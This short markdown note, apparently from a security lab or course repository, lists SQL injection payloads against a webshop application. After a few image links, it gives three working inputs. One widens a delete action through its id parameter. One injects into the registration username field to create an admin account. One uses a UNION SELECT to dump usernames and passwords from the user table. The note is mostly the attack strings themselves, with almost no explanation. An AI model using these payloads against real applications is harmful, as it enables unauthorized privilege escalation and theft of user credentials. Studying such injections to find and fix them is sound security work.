





## SQLI in Webshop

### admin user space

enter following text for the delete action parameter id
    
    1 or shopuser_id = 2

### anonym user space
create an admin user from register user endpoint:

following text into username textbox:

    admin3','pw',3 ) --

get all info of db

    s' UNION ALL SELECT 1, s.username, s.userpassword, 0,0 FROM shopuser s --

